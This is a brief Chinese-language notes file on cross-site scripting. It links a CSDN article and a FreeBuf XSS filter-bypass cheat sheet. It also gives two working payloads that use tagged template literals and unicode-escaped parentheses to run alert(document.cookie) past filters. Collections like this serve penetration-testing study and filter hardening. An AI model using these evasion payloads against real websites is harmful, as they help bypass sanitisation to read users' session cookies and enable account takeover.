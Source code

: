 1. 在 script 标签中获取 cookie 的方法：
- https://blog.csdn.net/weixin_30408165/article/details/99649981

setTimeout`alert\u0028document.cookie\u0029`;
setInterval`alert\u0028document.cookie\u0029`;

2. XSS 过滤速查表
https://www.freebuf.com/articles/web/153055.html